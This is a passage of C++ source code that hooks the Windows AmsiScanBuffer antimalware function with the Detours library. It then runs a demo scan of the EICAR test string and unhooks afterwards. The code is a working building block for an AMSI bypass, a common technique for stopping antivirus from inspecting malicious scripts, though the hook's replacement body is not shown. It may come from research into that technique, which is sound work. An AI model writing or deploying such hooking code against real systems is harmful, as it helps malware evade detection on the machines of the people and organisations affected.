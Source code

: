 ```
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourAttach(&(PVOID&)OriginalAmsiScanBuffer, _AmsiScanBuffer);
    DetourTransactionCommit();
}

//Undoes the hooking we setup earlier
void UnhookAmsi() {
    DetourUpdateThread(GetCurrentThread());
    DetourDetach(&(PVOID&)OriginalAmsiScanBuffer, _AmsiScanBuffer);
    DetourTransactionCommit();
}

int main() {
    //Declares variables required for AmsiInitialize, AmsiOpenSession, and AmsiScanBuffer
    HAMSICONTEXT amsiContext;
    HRESULT hResult = S_OK;
    AMSI_RESULT res = AMSI_RESULT_CLEAN;
    HAMSISESSION hSession = nullptr;

    //Declare test case to use
    LPCWSTR fname = L"EICAR";
    BYTE* sample = (BYTE*)EICAR;
    ULONG size = strlen(EICAR);

    std::cout << "[+] Hooking AmsiScanBuffer" << std::endl;
    HookAmsi();
    std::cout << "[+] AmsiScanBuffer Hooked" << std::endl;

    ZeroMemory(&amsiContext, sizeof(amsiContext));

    hResult = AmsiInitialize(L"AmsiHook", &amsiContext);
    if (hResult != S_OK) {
        std::cout << std::system_category().message(hResult) << std::endl;
        std::cout << "[-] AmsiInitialize Failed" << std::endl;
        return hResult;
    }

    hResult = AmsiOpenSession(amsiContext, &hSession);
    if (hResult != S_OK) {
        std::cout << std::system_category().message(hResult) << std::endl;
        std::cout << "[-] AmsiOpenSession Failed" << std::endl;
        return hResult;
    }

    hResult = AmsiScanBuffer(amsiContext, sample, size, fname, hSession, &res);
    if (hResult != S_OK) {
        std::cout << std::system_category().message(hResult) << std::endl;
        std::cout << "[-] AmsiScanBuffer Failed " << std::endl;
        return hResult;
    }

    std::cout << GetResultDescription(res) << std::endl;

    std::cout << "[+] Unhooking AmsiScanBuffer" << std::endl;
    UnhookAmsi();
    std::cout << "[+] AmsiScanBuffer Unhooked" << std::endl;
}
```
